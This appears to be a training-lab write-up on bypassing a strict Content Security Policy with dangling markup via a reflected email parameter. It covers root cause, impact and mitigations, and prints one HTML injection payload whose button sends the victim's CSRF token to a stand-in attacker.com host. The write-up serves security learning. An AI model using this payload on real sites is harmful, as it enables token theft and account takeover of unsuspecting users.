

# Lab 30: Reflected XSS protected by very strict CSP, with dangling markup attack

## Category
Cross-Site Scripting (XSS) - Reflected (CSP Bypass via Dangling Markup/Form Action Redirection)

## Vulnerability Summary
The website implements a strict Content Security Policy (CSP) that blocks inline scripts and external script sources. However, the CSP lacks a `form-action` directive, allowing form submissions to be redirected to any external server. The `/my-account?email=` parameter reflects user input unsanitized into the HTML page inside the email form. By injecting a dangling markup attack with a button containing `formaction` pointing to the attacker's exploit server and `formmethod=GET`, the CSRF token is exposed in the URL when the victim submits the form, enabling full account takeover.

## Attack Methodology
1. **Reconnaissance:** Identified that the `/my-account?email=` parameter reflects user input into the HTML page.
2. **CSP Analysis:** Found that CSP is strict on scripts (`script-src 'self'`) but missing `form-action` directive.
3. **Bypass Discovery:** Discovered that form submissions can be redirected to external servers due to missing `form-action` restriction.
4. **Payload Construction:** Crafted a dangling markup injection with a button containing `formaction` and `formmethod=GET` attributes.
5. **Exploitation:** When the victim submits the form, the CSRF token is sent to the attacker's server via GET parameters.
6. **Account Takeover:** Attacker uses the stolen CSRF token to change the victim's email and take complete control.



## Technical Root Cause
The vulnerability stems from multiple security misconfigurations:

- **Incomplete CSP:** The CSP blocks scripts but lacks `form-action 'self'` directive to restrict form submissions.
- **Unsanitized Reflection:** User input in the `email` parameter is reflected without proper encoding or sanitization.
- **Dangling Markup:** The injected HTML attributes (`formaction`, `formmethod`) are not escaped, allowing form hijacking.
- **CSRF Token Exposure:** Using `formmethod=GET` exposes the CSRF token in the URL query string.
- **Missing Input Validation:** Server-side validation does not reject malicious HTML attributes in user input.

### Payload Used
```html
" /><button formaction="https://attacker.com/steal" formmethod="GET">Click me</button><input type="hidden" name="

```

How it works:
- The payload closes the existing input tag with `" />`.
- Injects a `<button>` element with `formaction` pointing to attacker's server.
- `formmethod="GET"` ensures the CSRF token is sent as a URL parameter.
- An additional `<input type="hidden">` maintains form structure.
- When clicked, the form submits to the attacker's server with the CSRF token exposed.

## Impact
- **Full Account Takeover:** Attacker changes victim's email and gains complete control of the account.
- **CSRF Token Theft:** Sensitive anti-CSRF tokens are exfiltrated to attacker-controlled servers.
- **Session Hijacking:** Attacker can perform any action on behalf of the authenticated victim.
- **Data Exfiltration:** All form data including personal information can be stolen.
- **CSP Bypass:** Attacker bypasses script-based CSP restrictions using form-based attacks.
- **Privilege Escalation:** Attacker can escalate privileges by taking over legitimate user accounts.

## Mitigation
1. **Add form-action Directive:** Include `form-action 'self'` in CSP to block form submissions to external domains.
2. **Encode All Reflected Input:** Properly HTML-encode all user input before reflecting it in the page.
3. **Server-Side Validation:** Validate and sanitize input server-side, rejecting malicious HTML patterns.
4. **Use POST for Sensitive Forms:** Avoid GET for forms containing sensitive data or CSRF tokens.
5. **SameSite Cookies:** Set `SameSite=Strict` on session cookies to prevent cross-site request forgery.
6. **Input Context Awareness:** Apply context-specific encoding based on where user input appears (attribute, text, URL).
7. **Defense in Depth:** Combine CSP, input validation, output encoding, and secure cookie settings.

---
*Lab completed on: 2026-02-28*
